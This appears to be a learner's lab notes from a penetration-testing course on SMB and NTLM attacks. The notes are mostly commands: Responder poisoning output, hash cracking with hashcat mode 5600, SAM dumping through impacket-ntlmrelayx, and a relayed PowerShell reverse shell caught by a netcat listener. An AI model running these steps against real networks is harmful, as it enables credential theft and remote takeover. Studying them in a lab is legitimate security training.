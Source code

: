 ```shell-session
    Force Basic Auth           [OFF]                                               
    Force LM downgrade         [OFF]                                               
    Fingerprint hosts          [OFF]                                               
--------------------------------------------------------------------------------------
[+] Generic Options:                                                               
    Responder NIC              [tun0]                                              
    Responder IP               [10.10.14.198]                                      
    Challenge set              [random]                                            
    Don't Respond To Names     ['ISATAP']                                          
--------------------------------------------------------------------------------------
[+] Current Session Variables:                                                     
    Responder Machine Name     [WIN-2TY1Z1CIGXH]   
    Responder Domain Name      [HF2L.LOCAL]                                        
    Responder DCE-RPC Port     [48162] 
--------------------------------------------------------------------------------------
[+] Listening for events... 
```
hash captured:
1- crack using hashcat 
2- relay attacks
All saved Hashes are located in Responder's logs directory 
(`/usr/share/responder/logs/`)
3-hashcat module 5600

```
**Note:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.
```

##### **relay attacks**
```
impacket-ntlmrelayx or Responder MultiRelay.py.
```

step-1:
First, we need to set SMB to `OFF` in our responder configuration file 
(`/etc/responder/Responder.conf`).
```shell-session
AhmaDb0x@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```
step-2:
`sam` will be dumped
```shell-session
AhmaDb0x@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
step-3:
execute command OR revshell
[https://www.revshells.com/](https://www.revshells.com/)
```shell-session
AhmaDb0x@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAACkA'
```
```shell-session
AhmaDb0x@htb[/htb]$ nc -lvnp 9001
```
DONE

---